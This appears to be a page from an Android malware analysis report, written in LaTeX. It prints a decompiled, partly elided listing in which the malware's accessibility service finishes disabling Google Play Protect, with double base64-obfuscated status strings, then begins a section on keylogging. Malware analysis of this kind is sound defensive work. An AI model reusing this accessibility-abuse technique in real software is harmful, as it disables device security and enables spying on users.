 \documentclass[10pt,titlepage]{article}
\begin{document}
\begin{lstlisting}[label=onaccessibilityeventdisableplayprotect,caption=The function \textit{naqsl.ebxcb.exu.ServiceAccessibility.onAccessibilityEvent()} finalizes the last step of the disable Google Play Protect attack using the \textit{android.view.accessibility.AccessibilityNodeInfo.performAction()} function. Afterwards the settings will be closed by calling the \textit{naqsl.ebxcb.exu.ServiceAccessibility.fddo()} function.,frame=tb]
public void onAccessibilityEvent(android.view.accessibility.AccessibilityEvent r24) {

            [...]
            [...]
            r4.performAction(r3)     // Catch:{ Exception -> 0x0568 }
            [...]
            java.lang.String r8 = 
                  "ZkNCRWFYTmhZbXhsSUZCc1lYa2dVS" + 
                  "Ep2ZEdWamRDQkJZM1JwYjI0Z1BDQk" + 
                  "dhVzVoYkNCVGRHVndJRDRnUTA5TlV" + 
                  "FeEZWRVZFSVNCOA==" 
                  \\| Disable Play Protect Action < Final Step > COMPLETED! |
            java.lang.String r8 = naqsl.ebxcb.exu.Cint.m430int(r8)     
            java.lang.String r8 = naqsl.ebxcb.exu.Cint.m430int(r8)    
            r9.append(r8)     // Catch:{ Exception -> 0x056e }
            java.lang.String r8 = r9.toString()     // Catch:{ Exception -> 0x056e }
            java.lang.String r5 = r5.m439for(r8)     // Catch:{ Exception -> 0x056e }
            r11.append(r5)     // Catch:{ Exception -> 0x056e }
            java.lang.String r5 = r11.toString()     // Catch:{ Exception -> 0x056e }
            r3.fddo(r0, r4, r5)     // Catch:{ Exception -> 0x056e }
            r23.fddo()     // Catch:{ Exception -> 0x056e }
\end{lstlisting}

This attack will be started from the \textit{naqsl.ebxcb.exu.StartWhileGlobal} Service (read more in chapter \ref{featureselection}).

\newpage
\subsubsection{KEYLOGGING AND MORE (USING ACCESSIBILITY FRAMEWORK)} \label{keylogger}
As the API calls list and the Manifest tells, the malware is able to setup an \textit{ 	android.accessibilityservice.AccessibilityService} (see Listing \ref{listofaccessibilitycalls} and chapter \ref{manifest}). By setup an \textit{AccessibilityService} the malware is able to:
\end{document}
